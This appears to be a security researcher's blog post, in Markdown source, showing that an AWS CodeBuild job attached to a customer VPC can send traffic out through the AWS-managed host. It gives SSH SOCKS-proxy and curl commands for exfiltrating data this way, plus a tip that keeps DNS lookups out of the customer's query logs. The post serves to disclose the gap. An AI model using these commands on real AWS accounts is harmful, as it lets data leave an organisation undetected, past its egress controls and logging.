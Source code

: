 ```yaml
---
layout: post
title: AWS VPC data exfiltration using CodeBuild
date: 2022-02-03 15:48:52 +1100
categories: blog
---
```


In September 2020, I published a [guest blog post][ian-blog] on [Ian McKay][ian]'s
blog. The tl;dr is that "escaping" a privileged container running in an Amazon-managed
AWS account isn't a security concern for Amazon, thanks to defence-in-depth on
both an EC2 and IAM level. Here's a few paragraphs I left out of that blog post
at the time and was recently reminded of.

## But wait, there's more

As Corey said in the tweet at the start of that story, you _can_ grant CodeBuild
access to resources in your own VPC. CodeBuild is much like AWS Lambda in that 
regard: by default it has public Internet connectivity *or* you can allow it to
attach to your VPC to access internal resources. 

A [tweet by @amcabee13][anna-tweet] on her favourite topic of IP addresses for
VPC-unattached Lambdas got me thinking: some people attach Lambdas to VPCs 
because then it allows more observability and control over data egress, i.e. 
connections out to the Internet. The same goes for CodeBuild jobs: traffic will
now reach the Internet through whatever egress path you have and the associated 
security controls (firewalls, etc). But what about the EC2 instance the CodeBuild
container is running on - it's still in the AWS-managed VPC?

So naturally, I went back and checked. Running commands in the container had 
connectivity to the VPC. And running them on the host had connectivity directly 
to the public Internet, unassociated with the customer's (my) VPC. Could this 
make for very convenient data exfiltration? The answer is: yes, quite easy! 

First, run commands like these on the CodeBuild **host**:

```
ssh-keygen
cat ~/.ssh/id_rsa.pub > /home/ec2-user/.ssh/authorized_keys
ssh -f -N -D 169.254.170.8:1080 ec2-user@localhost
```

Now in the CodeBuild **container** you can run:

```
# this is routed through the customer VPC
curl http://10.1.2.3/internal 

# this is routed through the AWS VPC, bypassing your VPC egress routing tables
curl --socks4a 169.254.170.8:1080 https://google.com  
```

Pay careful attention to the `a` at the end of that `--socks4a` flag. If you 
instead pass `--socks4` everything will work, but the DNS resolution of `google.com` 
will be done by the container and your malicious DNS queries could be recorded 
by [Route 53 Resolver Query Logs][query-logs] in the customer VPC, not the AWS VPC.


[ian-blog]: https://onecloudplease.com/blog/security-september-escaping-codebuild
[ian]: https://twitter.com/iann0036
[anna-tweet]: https://twitter.com/amcabee13/status/1300541996738715649
[query-logs]: https://aws.amazon.com/blogs/aws/log-your-vpc-dns-queries-with-route-53-resolver-query-logs/
